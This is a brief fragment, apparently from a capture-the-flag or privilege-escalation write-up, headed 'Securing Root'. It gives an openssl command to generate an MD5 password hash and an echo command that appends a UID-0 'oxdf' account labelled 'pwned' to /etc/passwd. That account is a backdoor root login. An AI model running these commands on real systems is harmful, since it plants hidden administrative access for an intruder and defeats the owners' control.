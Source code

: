 #securing-root

# Securing Root

`openssl passwd -1 a

`echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd`